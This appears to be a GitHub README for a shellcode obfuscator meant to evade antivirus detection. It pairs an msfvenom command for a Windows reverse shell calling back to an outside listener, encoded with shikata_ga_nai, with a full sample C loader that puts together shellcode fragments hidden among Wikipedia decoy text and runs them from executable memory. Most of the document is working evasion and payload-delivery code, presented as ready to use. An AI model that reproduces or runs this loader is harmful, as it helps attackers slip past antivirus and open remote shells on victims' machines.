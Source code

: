 ### WIP
Takes a given shellcode file (generated using msfvenom, for example), shuffle and randomise the shellcode, then generate a C source file to be compiled. 

- Obfuscation Through Memory Manipulation: By using `memcpy` to dynamically assemble the shellcode in memory, effectively hiding the malicious code from static analysis tools.
- Dynamic Reassembly at Runtime: The shellcode is only assembled and becomes recognizable as such during runtime, which helps in evading detection mechanisms that scan executable files before they are run.
- Flexibility: Can be applied to various types of shellcode as long as they are compatible with Windows.

## Usage

Using a shellcode file, using `msfvenom`, for example:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -e x86/shikata_ga_nai -i 8 -f c > shellcode.c
```
Use the script to obfuscate the shellcode:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 30 -c 5 -df mr.bean_wikipedia.html -db 60 -min 3 -max 5 -fm 10 
Shellcode size: 540 bytes
Decoy size: 585859 bytes
Fragment count: 4278
File size: 1433798 bytes
File saved to shell.c
```
Compile:

```bash
i686-w64-mingw32-gcc shell.c -o shell.exe
```
Profit?

## Options

`-s` / `--shellcode-file`: Specifies the input file containing the shellcode. This file should contain the shellcode that will be obfuscated by the script. The shellcode is expected to be in a raw binary or hexadecimal format.

`-o` / `--output`: Designates the output file name for the generated C source code. If not specified, the script defaults to creating a file named `shell.c`. This file will contain the obfuscated shellcode.

`-c` / `--chunks`: Sets the number of chunks into which the shellcode will be split. The script divides the shellcode into this specified number of parts for obfuscation. A lower number results in fewer, larger chunks, while a higher number creates more, smaller chunks.

`-df` / `--decoy-file`: Specifies an optional decoy file. The content of this file is used to create additional obfuscated fragments within the generated C source. If not provided, the script will only use randomly generated decoy data.

`-db` / `--decoy-bias`: Determines the likelihood (in percent) that fragments from the decoy file will be used in the generated C source. A higher value increases the probability of using decoy file content in the obfuscation process.

`-dm` / `--decoy-multiplier`: Defines the ratio of decoy fragments to real shellcode fragments. For example, a value of 4 means there will be four times as many decoy fragments as real shellcode fragments. This enhances the obfuscation by adding more non-functional code fragments.

`-min` / `--min-frag-size`: Sets the minimum size for each fragment in bytes. This parameter controls the smallest allowable size for both shellcode and decoy fragments. Smaller fragment sizes can lead to more complex obfuscation.

`-max` / `--max-frag-size`: Specifies the maximum size for each fragment in bytes. It sets the upper limit for the size of the fragments. Larger fragments can reduce complexity but may be less obfuscated.

`-fm` / `--fragment_multiplier`: Affects the length of decoy fragments. This multiplier is applied to the length of decoy fragments, allowing for variability in their size compared to real shellcode fragments. A higher value results in longer decoy fragments.

## Sample output:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 1 -c 1 -df mr.bean_wikipedia.html -min 50 -max 50 -fm 1
```

```c
#include <stdio.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {
    unsigned char main[] = "\x14\x25\x2c\xde\x7d\x44\xfa\x91\x75\x8a\x89\xf3\x87\x40\x7c\x23\xf7\x27\x35\x58\xe5\xac\xd0\x37\xb2\xf7\xa0\x4d\x87\x34\xeb\x53\xed\xd7\x8b\x63\x80\xd1\xc6\x90\x5f\x28\xb6\xd2\xd5\xc4\x81\xa2\x41\xa3\x58\xb0\x08\x04\x2c\xc8\x72\x45\x24\x77\xf7\x90\xfa\x4e\xf3\x30\x24\x2f\xc9\x07\x74\x4a\x88\x5b\x7e\x0e\x07\x49\x08\xed\xaf\x60\x0f\x1b\xa7\xff\x5c\x2d\x9d\xcb\x72\x5e\x4e\x90\x09\x6c\x8b\x69\x45\x9d\x11\xe6\x77\xd0\x24\x0c\xf7\x85\x6b\xa4\x54\xc3\xcc\xcd\xfa\xb6\x6f\xac\xde\x49\x58\x9c\xe2\x93\xeb\x39\xc2\xc3\xf4\x8c\xab\xa9\x76\x4a\xb9\xbc\x7f\x99\x23\xae\x9e\xc3\x23\x86\xe2\xf5\x62\xbf\xd9\xe4\x56\x26\xa5\xb7\x12\x95\x19\x0d\x82\xb7\x81\x99\x0f\xa3\x80\x4b\x3d\x3c\x41\x2c\xca\xcc\xc0\x37\xa2\xb2\x05\x39\x70\x5f\x6a\xec\xd6\x28\x74\xfb\x2b\xc7\x03\x10\xa7\x66\x08\xcc\xa6\x51\x77\x4d\x5d\x4c\x18\x71\xda\x18\xaf\x1d\x9a\x17\x46\xc4\x88\x1d\xc3\x02\xbf\x79\x47\xb2\xa8\xbc\x6f\xa7\x75\x9c\xc9\x1d\x56\x37\xe4\x2f\xe1\xc3\xca\x96\xbf\x2c\x7f\xc7\x32\x2f\x49\xb1\xe2\x15\x07\x62\xae\x9a\x5d\x50\x55\xdd\x7a\xb0\x05\x84\xdb\x0d\x90\x5e\xc5\x9a\xef\xae\xcd\x19\x41\x15\x98\xb7\xc8\x7c\x9e\x72\xb7\x8f\xce\x3b\x9c\xf6\x52\x77\x97\xe5\xe4\x58\x94\xd1\x86\x71\x85\x64\x4f\x0b\xf9\x26\xe1\xb7\x29\x5a\xa7\x4e\x34\x74\x31\x87\x4f\x2e\xfc\x7b\x96\xe4\xfa\xd3\xed\xb6\xfb\x98\xd3\x73\x17\x9f\xe2\x95\xcf\xcd\xbe\x24\x56\x9b\x3b\x3c\x79\x12\x51\x3f\x78\x6a\x40\x55\x3c\x2b\x7b\xc8\x0f\x07\x25\x35\x03\xb4\xc2\x6b\xe4\x0f\xc7\x6b\x08\xeb\x39\xd2\x5a\x09\x47\x73\x11\xd6\x2e\x02\x2a\x21\xbc\x88\x06\x26\xde\xd0\xfd\x61\x82\x35\x81\xe7\x0e\x1a\xc6\xd4\x74\x13\x07\x06\xaa\xa1\x64\x78\x82\x1b\x25\xe9\xdd\xbe\xe4\xf3\xe0\x88\xa6\x33\x24\xd9\xaa\x27\x61\x05\x45\xda\xab\x52\x98\x14\xcb\x52\x5a\xfd\x33\x8e\xd3\xff\x51\xc6\x41\x86\xbc\x0e\x9c\xe0\xd7\x00\xbc\x04\x9e\x83\xe4\x13\x6d\xac\x0f\x52\xe9\x85\x8d\xde\x7b\x01\x14\xb8\x68\x2b\x70\xa0\xc7\x77\xbf\x5f\x0a\xa4\x2a\xc0\xd5\xe6\x1f\x15\xbb\x18\x7e\xf1\xef\xda\x3b\x57\x0d\xcf\xcb\xb1\xb8\x78\x38\x96\x84\x71\xb5\x77\x77\xb5\x1b\xb0\x9d\x56\x06\x89\xf7\xde\x05\xba\xd5\xc0\x39\x01\x61\xec\x0d\x83\x6f\xf3\x39\x51\xc3\x25\x8e\x44\xa0\xfe\xb9\xb8\x14\x50\xc4\x6b\x6a\xf1\x41\xb8\x84\x03\xf0\x9c\x1f\x61\x18\x2d\x17\xe2";



    unsigned char block0[540] = "\xd3\xcf\xaf\x59\xff\x50\x39\x6a\xa6\x15\xb4\x7b\x40\x2b\x98\x00\x44\xd1\x81\xf0\x79\xb1\xb9\x5e\x82\x4d\xd7\x0a\x93\xa2\x15\xa3\x2f\x89\x2b\x9d\x99\xe3\xed\x04\x52\xbe\x08\xb6\x6c\x4f\xad\x50\xf8\xbf\xee\x0a\xe8\xe4\x0e\x8d\xc2\x93\xad\x21\xa4\x89\x05\x09\x29\x95\xd7\x0b\x54\xa5\xf8\x6c\x9d\x30\x7d\xd6\x0b\x06\x92\xdc\xe8\x3d\x35\x1d\xa9\xd3\x26\x41\x08\xd1\xd5\xe7\x24\xcf\xfe\x22\xfe\x4b\x1e\x06\x2b\xc1\xda\x81\x67\x9f\x32\x94\x4d\x19\x0a\x94\xb0\x60\x4d\xe2\x3d\x7c\xb2\xa5\x54\x46\x6c\x41\x51\xca\x6f\x84\x25\x36\x9b\x40\x13\x4c\xa7\x6c\x7d\x6f\xab\x42\x3a\x6a\xa0\x3f\x4e\xc9\x35\xa3\x05\x27\x8e\x1f\x26\xc7\x54\xf9\xfb\x07\x0a\xc3\xdb\xda\x0f\x9f\x5c\x4c\xf9\xa3\x08\x8e\x1c\xf6\x6d\xc7\x6c\xb4\x19\xf2\xc7\x6e\x6a\x13\x97\x68\xf3\xae\xad\xa2\x2c\x37\x14\xc7\x4e\x77\xb2\xed\xb6\x3f\x99\xa8\xfa\x58\x21\x10\x03\x17\xb5\xb4\x09\x9b\x30\xad\x88\x5d\x51\x06\x11\x84\x1c\x58\x6b\xa1\x08\x5f\xde\xb9\x10\xbf\x97\x1f\x30\x99\x31\x3f\x60\x04\xd6\xa1\x0f\xf0\x98\x15\x0f\x69\xa7\x3a\xa5\xec\x08\xa4\x72\xd1\x8b\x3b\xe3\x4c\x54\xa5\xa4\x24\xb4\xbb\x16\x26\x3d\xec\x4e\xbf\xaf\xaa\xf4\x81\xd0\x7e\x04\x8a\xf1\x16\xc4\x93\x52\x91\x7b\xf9\x9a\xeb\x54\xec\x2b\x91\x07\x11\xf1\x00\x35\x4e\xa6\x1b\xbc\xee\x68\xb9\xee\x35\x9e\xf0\x7d\x5a\x24\x3e\xbe\xad\x60\x7d\xa1\x61\xfc\x14\x63\xd7\x69\x31\xe3\xbb\x9a\xbb\x52\x58\xee\x1f\xc7\x67\xb9\x72\xf0\xc5\x6a\xb7\x61\x25\xc1\x77\xc6\x49\x28\xd8\x5f\xad\xa7\xa4\xe2\xf5\x70\xda\xa1\x45\x09\x2f\xd0\x31\x22\x31\x7e\x97\x66\xc4\x15\x66\xd8\x73\x46\x55\xd0\xe2\x65\x3c\x00\x0c\xcb\x04\x47\xa5\x06\xb1\xe2\xa6\xdd\x17\xc7\x99\xb5\x5d\xac\x6a\x8f\xa5\x93\xd2\xc7\x2e\x34\x3b\x91\xe1\x3b\x09\xe8\xbb\x6a\x2e\xd5\x23\xa7\x4d\xa0\x91\xaa\x86\xe6\x40\xf8\xab\xa4\x40\x7b\x69\x37\xc4\x47\xf3\xfd\xb8\x34\x93\xa0\x1e\x52\xdc\x91\x3d\xc0\x77\x9e\x8f\x4e\xf8\xa6\xdd\x84\xee\xff\x96\xcc\xa5\xfc\x34\xca\x05\x71\x43\xbd\x35\xde\xbd\x52\xa5\xee\x71\x68\xa6\x2b\x29\x8a\x20\x2c\x6e\xf1\x9e\x24\x47\x86\xca\x91\xd8\x41\xc8\x09\x8c\x72\x2f\xad\x78\xf5\x5c\x7b\xa9\x9b\x9d\x9d\x39\xce\x97\x6e\x04\x97\x16\x54\xfd\xcf\x42\x85\xa6\x7d\x03\x04\x5e\xc4\xc0\x0f\xac\x89\xe1\x82\x50\xf4\xf6\xc9\xa9\x6c\x18\xbe\x33\x66\x29\x85\xe0\x48\xea\x5a\x7d";
    char _0a[] = "v></div>\n\t\t\t\t\t<div id=\"catlinks\" class=\"catlinks\" data-mw=\"interface\"><div id=\"mw-normal-catlinks\" class=\"mw-normal-catlinks\"><a href=\"/wiki/Help:Category\" title=\"Help:Category\">Categories</a>: <ul><li><a href=\"/wiki/Category:1990_British_television_series_debuts\" title=\"Category:1990 British television series debuts\">1990 British television series debuts</a></li><li><a href=\"/wiki/Category:1990s_British_sitcoms\" title=\"Category:1990s British sitcoms\">1990s British sitcoms</a></li><li><a href=\"/";
    unsigned char _0b[] = "\xfb\x52\x24\xfe\x66\x63\x8d\x38\xbb\x5b\x13\xd8\x60\xea\xf0\x62\xba\x99\x74\x2c\x85\x02\x8f\xb2\x43\xd2\x97\x3c\xcc\x93\xc7\x2f\xd0\xff\xa8\x5b\x1d\x73\x23\xe4\xc1\x47\xd5\x3b\xb2\x5e\x87\x68\x0e\x61";
    unsigned char _0c[] = "\x36\xf7\x4f\x18\x4a\x62\x2e\xc1\x72\x61\x18\x5b\xe0\xf4\x8b\xb2\x31\xd9\x1a\x99\x2b\x7b\xc5\xe1\x4d\x23\xce\x28\x89\xb7\xfe\x18\x1d\x51\x56\x13\x1d\x87\x3f\xa2\x4c\xd3\xe8\x0a\x2b\xd0\x28\x6f\x4e\x76";
    unsigned char _0d[] = "\x9f\xe2\x79\x8e\xa6\xb1\x27\x2f\xa5\x00\x5b\xe0\xbd\xcc\x88\x88\xb5\x95\xde\x31\xdb\x92\x03\xd3\x3a\x67\x1b\xf0\xfd\x83\xae\x4d\xc7\x83\x0f\xaf\x89\x2c\x75\x03\x9e\xb8\x7d\x0e\x4d\x8b\x30\x30\xea\xc3";
    unsigned char _0e[] = "\x0c\xe8\x9e\xcf\xf6\xff\xb8\x77\x27\x00\x6d\x05\x03\x0e\x95\xee\xea\x69\x71\xe3\xdb\x12\x30\x5a\xde\xbd\x31\x4d\x35\xce\xcd\xd0\x62\x89\xee\x24\x25\xad\x07\x6e\x6d\x59\x70\xaf\xd8\x86\x69\xae\x40\x64";
    unsigned char _0f[] = "\xdd\x5d\x42\x57\x53\xcd\x8e\xc6\xa5\xe1\x18\x74\xf3\xbd\x99\x16\xac\x14\x7e\xb0\x9a\x06\x9a\x72\x1f\x86\x24\x59\x9d\x03\x37\x12\x34\x71\x2a\x98\xef\xa9\x11\x8d\x71\xf1\xd2\xff\x8f\x15\xf3\x2c\x28\x62";
    unsigned char _0g[] = "\x30\xf0\x25\xa9\x84\x4c\x28\x33\x0b\x2d\x48\xc9\x3c\x15\x70\x9e\xf8\x4a\x37\x07\xd8\x83\x1c\x1b\xfc\x16\xda\x92\xbd\x43\x1d\xda\x46\xb2\x35\x18\x8c\x00\x23\xcf\xf8\xbd\xd6\xe6\xbd\xc0\xe0\xd6\x3f\x5b";
    unsigned char _0h[] = "\x54\x9d\x25\xcd\xb2\x8c\x66\x0b\x08\x0e\x0f\x6f\xe1\xed\x69\x6c\xf1\x50\x79\x27\x04\xdb\xee\xcb\xe0\xb7\x92\xf0\xdb\x62\xf0\x42\x2f\x2b\xf5\x1f\x8d\xf9\xff\x22\x6d\x96\x71\x54\x4a\x7b\x34\xed\x64\x66";
    unsigned char _0i[] = "\x9d\x28\x42\xf5\xb3\x98\x97\xa3\xf1\x34\x33\x92\xc2\x25\x16\x91\x29\xec\x70\xb6\x48\xf9\xa2\xdb\x12\x38\x23\x0b\xdb\x5a\x9f\x68\x03\x8d\x98\xf8\x06\x0b\xdf\xd7\xce\x8e\x5d\xa5\xce\x6b\xa4\x47\x16\x6c";
    unsigned char _0j[] = "\x38\xa9\xb9\xf8\xb1\x82\x3e\xaf\x3f\x63\xf5\x58\xc9\x20\xc8\xc9\x6a\x5c\x3e\xff\xb3\x01\xac\x14\xcc\x4c\xb9\xbc\xa2\x3c\x10\xaf\xb9\x2e\x8e\xf2\x16\xc2\x38\xe7\xd7\x78\x65\x1d\x7e\x43\x72\x5b\x8a\x3a";
    unsigned char _0k[] = "\xf3\x54\x9f\x53\xfc\xcf\x48\x65\x38\xda\xab\xfb\xfb\x8c\x37\xc5\xa4\xc4\x7a\xa2\xd7\x94\xf8\x2e\x95\x0d\xb4\x2c\x55\x11\xf5\x8a\x26\x73\x46\x65\x73\xb5\x03\x65\xa8\xb8\x3e\x50\x96\x9a\x60\x8a\x73\x73";
    unsigned char _0l[] = "\xd9\xcb\xba\x87\x8c\x67\x44\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x81\x83\xc5\x04\x31\x55\x14\x03\x55\x93\x6e\x92\xfb\x7d\xb6\xef\xfe\x5a\x88\xc9\x8b\x78\xe3\xb2\x58\x49\xba\x39\xae\x31\xa9\x3e\x38\x3d\xd2";
    char _0m[] = "tom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._Bean\" title=\"Template:Mr. Bean\"><abbr title=\"View this template\" style=\";;background:none transparent;border:none;box-shadow:none;padding:0;\">v</abbr></a></li><li class=\"nv-talk\"><a href=\"/wiki/Template_talk:Mr._Bean\" titl";
    char _0n[] = "tent:\" ]\"}.mw-parser-output .navbar li{word-spacing:-0.125em}.mw-parser-output .navbar a>span,.mw-parser-output .navbar a>abbr{text-decoration:inherit}.mw-parser-output .navbar-mini abbr{font-variant:small-caps;border-bottom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._B";
    unsigned char _0o[] = "\x2a\x2e\x11\x9f\xd6\x2b\xae\x83\x60\x47\x03\x5c\x3d\xae\x5b\x55\x16\xc1\xea\x0a\xf8\x2e\x58\x1f\x9b\x8d\xf1\x8b\x52\x1d\x47\x21\x77\x65\x43\xf2\x13\x1c\x25\x94\x2d\x3e\xba\x25\x56\xd8\x4d\xe3\xb9\x5e";
    unsigned char _0p[] = "\xe6\x47\x0c\xd3\x7b\xd0\xf1\x91\x86\x08\xc9\x2a\x5c\x05\x8f\xef\xe3\x9b\x70\x5a\xf3\x07\xc9\xa4\xa6\x53\x64\xcc\x2a\x9f\xe5\xe2\x8e\x5d\xac\x61\xde\x01\xa8\x9a\x87\xa6\x69\x9e\x54\xe9\xd4\x31\xbf\xd9";
    unsigned char _0q[] = "\xb9\xe9\x34\x52\xdf\xca\xdd\xdd\xf9\x2a\xb3\x9d\x8c\x36\x32\x03\xe3\xa6\x15\x1a\x02\x13\xbf\x2d\x74\x31\x8a\x84\x00\x44\x14\x8d\x3b\x23\x44\xca\xab\xfe\xb0\x64\x74\xd6\x7b\xb7\xed\x91\xd1\x3a\xb7\x59";
    char _0r[] = "88\"></span></span>\n</li>\n<li id=\"cite_note-57\"><span class=\"mw-cite-backlink\"><b><a href=\"#cite_ref-57\">^</a></b></span> <span class=\"reference-text\"><link rel=\"mw-deduplicated-inline-style\" href=\"mw-data:TemplateStyles:r1133582631\"><cite class=\"citation web cs1\"><a rel=\"nofollow\" class=\"external text\" href=\"https://www.youtube.com/mrbean\">\"Kanaal van MrBean\"</a>. YouTube. 1 January 1990. <a rel=\"nofollow\" class=\"external text\" href=\"https://web.archive.org/web/20100804200604/http://www.youtube.";
    unsigned char _0s[] = "\x5e\x5e\xfe\xf2\x65\xad\x00\xff\x27\xf7\xe2\xa2\x02\xc9\x99\x83\x8a\x5a\xeb\x7f\x17\x88\x09\x36\xe1\x2f\x83\xe8\x1a\xe0\x8c\x91\x6e\xe8\xe8\x73\x0d\x59\x0a\xd9\xaa\x06\x3b\x76\x3c\x47\x82\xe2\x0d\x4d";
    unsigned char _0t[] = "\x5c\x4c\x33\x7a\x3e\xec\xa1\xcd\xff\xb6\xc6\x7f\x7c\xf3\xda\x43\x98\xe4\x28\x18\x2b\x4e\xa0\xae\x22\x1e\xf2\x5c\x2c\xd2\x1b\xd1\x86\xaa\x71\xec\x59\x75\xb5\xce\x6c\x47\x77\x4f\x94\xde\xf9\x03\x8d\xb3";
    unsigned char _0u[] = "\xed\x0b\x35\x44\x92\x49\xff\x2c\x7c\xcd\x9c\x97\xee\x4d\x61\xf2\xf6\x01\x95\xdc\x06\xd5\xc9\x78\x9b\xc9\x1f\x5f\xd3\x43\x04\xde\x26\x26\xc1\x1a\xaa\x47\xf7\xdf";
    unsigned char _0v[] = "\x99\x84\xe3\x65\x9d\x94\x56\xfd\xd5\x44\xbb\xb5\x60\x00\xbc\x16\x22\xba\x47\x33\xec\xe2\xc9\x55\x16\xbe\x9f\xf6\x93\x32\x2f\xf9\x50\xc7\x43\xe5\x11\xee\xbe\x79\xea\x65\xd5\x25\x87\xe3\x26\x50\xe4\x9d";
    memcpy(block0 + 450, _0d, sizeof(_0d) - 1);
    memcpy(block0 + 400, _0f, sizeof(_0f) - 1);
    memcpy(block0 + 200, _0g, sizeof(_0g) - 1);
    memcpy(block0 + 350, _0i, sizeof(_0i) - 1);
    memcpy(block0 + 50, _0j, sizeof(_0j) - 1);
    memcpy(block0 + 0, _0l, sizeof(_0l) - 1);
    memcpy(block0 + 150, _0p, sizeof(_0p) - 1);
    memcpy(block0 + 250, _0q, sizeof(_0q) - 1);
    memcpy(block0 + 300, _0s, sizeof(_0s) - 1);
    memcpy(block0 + 100, _0t, sizeof(_0t) - 1);
    memcpy(block0 + 500, _0u, sizeof(_0u) - 1);

    void* exec = VirtualAlloc(0, sizeof main, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(main + 0, block0, sizeof(block0));


    memcpy(exec, main, sizeof(main));
    ((void(*)())exec)();

    return 0;
}
```
